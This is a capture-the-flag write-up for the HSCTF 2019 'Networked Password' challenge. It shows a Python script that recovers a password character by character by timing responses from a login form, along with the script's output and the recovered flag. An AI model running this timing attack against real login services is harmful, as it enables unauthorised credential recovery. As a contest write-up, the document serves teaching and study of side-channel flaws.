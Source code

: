 # HSCTF 2019 "Networked Password" writeup

## Problem

```
Storing passwords on my own server seemed unsafe, so I stored it on a seperate one instead.
However, the connection between them is very slow and I have no idea why.
```

<https://networked-password.web.chal.hsctf.com/>

## Solution

First, I check problem page's source code.

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8"/>
    <title>Networked Password</title>
  </head>
  <body>
    <form method="POST">
      <input type="password" placeholder="password" name="password"/>
      <input type="submit"/>
    <form>
  </body>
</html>
```

This is a very simple password form and there is no other information.

I tried a few passwords and noticed that the password "hsctf" takes a lot of time to respond.

This means that we can guess correct password by XS-Search of response time.

The format of the flag is "hsctf{}", so first try "h".

```
{'password': 'a'} response time : 0.811167
{'password': 'b'} response time : 0.915185
{'password': 'c'} response time : 1.018501
{'password': 'd'} response time : 1.120249
{'password': 'e'} response time : 0.916026
{'password': 'f'} response time : 1.013199
{'password': 'g'} response time : 0.919143
{'password': 'h'} response time : 1.324334 ← longest
{'password': 'i'} response time : 0.816922
{'password': 'j'} response time : 0.808752
{'password': 'k'} response time : 0.794029
{'password': 'l'} response time : 0.936624
{'password': 'm'} response time : 0.813636
{'password': 'n'} response time : 1.119719
{'password': 'o'} response time : 1.006724
{'password': 'p'} response time : 0.927347
{'password': 'q'} response time : 1.017954
{'password': 'r'} response time : 1.120191
{'password': 's'} response time : 1.121062
{'password': 't'} response time : 0.915766
{'password': 'u'} response time : 0.813457
{'password': 'v'} response time : 0.749453
{'password': 'w'} response time : 0.964771
{'password': 'x'} response time : 0.918737
{'password': 'y'} response time : 0.927552
{'password': 'z'} response time : 0.796128
```

A character that has longest response time is flag.

Then, I try the characters one by one.

```python
import requests

text = "0123456789abcdefghijklmnopqrstuvwxyz_}"

flag = "hsctf{"

for _ in range(30):
    time = [0.1 for _ in range(38)]
    for _ in range(5):
        for i in range(38):

            payload = {"password": flag + text[i]}

            r = requests.post(
                "https://networked-password.web.chal.hsctf.com", data=payload
            )

            response_time = r.elapsed.total_seconds()

            time[i] += response_time

            print(payload, " response time : ", response_time)

    flag += text[time.index(max(time))]

    print("flag is ", flag)
```

```
flag is hsctf{s
flag is hsctf{sm
flag is hsctf{sm0
flag is hsctf{sm0l
flag is hsctf{sm0l_
flag is hsctf{sm0l_f
flag is hsctf{sm0l_fl
flag is hsctf{sm0l_fl4
flag is hsctf{sm0l_fl4g
flag is hsctf{sm0l_fl4g}
```
